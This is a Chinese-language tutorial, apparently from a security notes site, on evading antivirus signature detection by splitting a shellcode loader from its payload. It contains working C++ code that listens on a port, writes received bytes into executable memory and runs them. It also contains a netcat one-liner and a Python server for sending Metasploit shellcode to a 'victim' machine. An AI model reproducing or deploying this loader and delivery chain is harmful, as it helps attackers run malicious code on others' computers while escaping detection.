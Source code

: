 # 简单的分离免杀

## 简介

通常杀毒软件会匹配静态特征来进行恶意软件的识别，虽然现在有很多行为查杀的引擎，但个人认为杀毒软件仍旧已特征码为主，行为免杀很大程度上是监控windows api，而这些恶意软件使用的api往往都是和合法软件是一致的，这也成为了行为查杀技术的桎梏，很多恶意软件只要换个不同的编译环境，就能不被杀毒软件注意到从而绕过杀毒软件。

本文鉴于目前杀毒软件仍旧以特征库为主，将病毒代码体和执行体分离，从而规避特征免杀。

## 流程

1. 在受害者电脑上打开个侦听端口，分配可执行内存
2. 等待传入 payload
3. 连接到受害者侦听端口，将 shellcode 作为二进制数据发送
4. 受害者将 shellcode 拷入可执行内存
5. 执行 shellcode，由 metasploit 接管 session

## 代码实现

给出代码是监听端口等待连接的，也可以做简单修改做成反向连接的。

```text
#include <WinSock2.h>
#include <WS2tcpip.h>
#include <iostream>
#include <Windows.h>
#pragma comment(lib, "ws2_32.lib")
int main(void)
{
LPWSADATA wsaData = new WSAData();
SOCKET listenSocket = INVALID_SOCKET;
SOCKET ClientSocket = INVALID_SOCKET;
CHAR bufferReceivedBytes[4096] = { 0 };
INT RecvBytes = 0;
PCSTR port = "477";
ADDRINFOA* SocketHint = new ADDRINFOA();
ADDRINFOA* AddrInfo = new ADDRINFOA();
SocketHint->ai_family = AF_INET;
SocketHint->ai_socktype = SOCK_STREAM;
SocketHint->ai_protocol = IPPROTO_TCP;
SocketHint->ai_flags = AI_PASSIVE;
WSAStartup(MAKEWORD(2, 2), wsaData);
GetAddrInfoA(NULL, port, SocketHint, &AddrInfo);
listenSocket = socket(AddrInfo->ai_family, AddrInfo->ai_socktype,
AddrInfo->ai_protocol);
bind(listenSocket, AddrInfo->ai_addr, AddrInfo->ai_addrlen);
listen(listenSocket, SOMAXCONN);
ClientSocket = accept(listenSocket, NULL, NULL);
RecvBytes = recv(ClientSocket, bufferReceivedBytes, sizeof(bufferReceivedBytes),
NULL);
LPVOID shellcode = VirtualAlloc(NULL, RecvBytes, MEM_COMMIT | MEM_RESERVE,
PAGE_EXECUTE_READWRITE);
memcpy(shellcode, bufferReceivedBytes, sizeof(bufferReceivedBytes));
((void(*)()) shellcode)();
return 0;
}
```

## 实现效果

![](../.gitbook/assets/image%20%2847%29.png)

端口已经开始侦听 我们使用 msf 生成 shellcode 并通过 nc 交付给受害者

![](../.gitbook/assets/image%20%2876%29.png)

生成一段 c 格式的 shellcode

![](../.gitbook/assets/image%20%2858%29.png)

处理一下变成一句字符串的形式

![](../.gitbook/assets/image%20%284%29.png)

```text
echo -e “shellcode-line” |nc  ip port
```

可以使用简单的python服务器传递shellcode

```text
import socket
import threading
import time  

def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('127.0.0.1', 36444)) # 公网地址
    s.listen(20)
    timeout = 10
    socket.setdefaulttimeout(timeout)
    while True:
        sock, addr = s.accept()
        t = threading.Thread(target=tcplink, args=(sock, addr))
        t.start()


def tcplink(sock, addr):
    print('Start download shellcode %s:%s...' % addr)
    shellcode = b'1111111' #your shellcode
    print(len(shellcode))
    while True:
        data = sock.recv(1024)
        time.sleep(3)
        sock.send(shellcode)
        sock.close()
    print('Finish %s:%s ' % addr)


if __name__ == '__main__':
    main()
```

![](../.gitbook/assets/image%20%2865%29.png)

![](../.gitbook/assets/image%20%2828%29.png)



